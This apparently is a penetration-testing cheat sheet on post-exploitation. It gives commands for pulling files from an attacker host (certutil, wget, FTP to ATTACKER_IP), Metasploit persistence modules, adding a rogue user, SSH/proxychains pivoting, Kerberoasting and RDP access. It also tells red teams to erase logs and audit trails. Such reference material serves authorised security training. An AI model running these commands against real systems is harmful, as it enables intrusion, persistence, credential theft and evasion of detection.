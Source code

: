 # Post Exploitation

## File Transfers Review

### Certutil

`certutil.exe -urlcache -f http://IP_ADDRESS/FILE.txt FILE.txt`

### HTTP

`python -m http.server 80`

### Browser

Navigate directly to file

### FTP

- Start an FTP server on the attacker's machine:
  `python -m pyftpdlib 21 (ATTACKER_IP)`
- Connect to the FTP server from the target machine: `ftp 10.10.10.10`

### Linux

`wget http://IP_ADDRESS/FILE.txt`

### Metasploit

Upload / Download feature

```
upload local_file remote_path
download remote_file local_path
```

## Maintaining Access Overview

### Persistence Scripts

`run persistence -h`

`exploit/windows/local/persistence`

`exploit/windows/local/registry_persistence`

### Scheduled Tasks

`run scheduleme`

`run schtaskabuse`

### Add a user

`net user USERNAME PASSWORD /add`

NOTE: These are all metasploit modules.

## Pivoting

Pivoting is a technique used by attackers to move laterally within a network after gaining initial access. The goal is to explore and compromise additional systems by leveraging the initial foothold.

### ProxyChains

One common tool for pivoting is `proxychains`. This tool routes network connections through proxy servers, allowing IP address spoofing.

To use `proxychains`, start by editing the configuration file at `/etc/proxychains.conf`.

Scroll down to `[ProxyList]`, where you can add proxy addresses with their corresponding ports.

#### SSH with ProxyChains

If you have root access and want to establish an SSH connection:

`ssh -f -N -D <PORT> -i <ssh-file> root@<IP-Address>`

- **`f`**: Sends SSH to the background just before command execution, avoiding an open terminal session.
- **`N`**: Instructs SSH not to execute a remote command, useful for port forwarding.
- **`D [bind_address:]port`**: Specifies a local "dynamic" application-level port forwarding, allowing connections to be forwarded over the secure channel.

Once executed, the connection is established in the background, and traffic can be proxied through this connection to access the network.

#### Examples of Usage

- Nmap Scans: `proxychains nmap <Commands>`
- Kerberoasting Attack: `proxychains GetUserSPNs.py <DOMAIN NAME>/user:pass -dc-ip <DC-IP> -request`
- RDP Access: `proxychains xfreerdp /u:administrator /p: 'Hacker321!' /v:10.10.10.10`

### SSHuttle

[sshuttle](https://github.com/sshuttle/sshuttle) allows connecting to a machine via SSH, enabling command execution without needing to prepend proxychains to each command.

Example:

```bash
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"
```

### Chisel

There’s also [Chisel](https://github.com/jpillora/chisel).

## Cleaning Up

### As a Red Team

Your goal is to remove any traces of your activities from the system and network logs, making it appear as if you were never there:

- Erase entries from log files that might indicate your presence.
- Delete any audit trails related to your actions.
- Remove or clean up command histories, execution traces, and network traffic logs.

### As a Pentester

Your objective is to help the client return their environment to its original state before the engagement:

- Remove all executables, scripts, and files that were introduced during testing.
- Eliminate any malware, rootkits, or additional user accounts created during the test.
- Revert system settings and configurations to their original state.
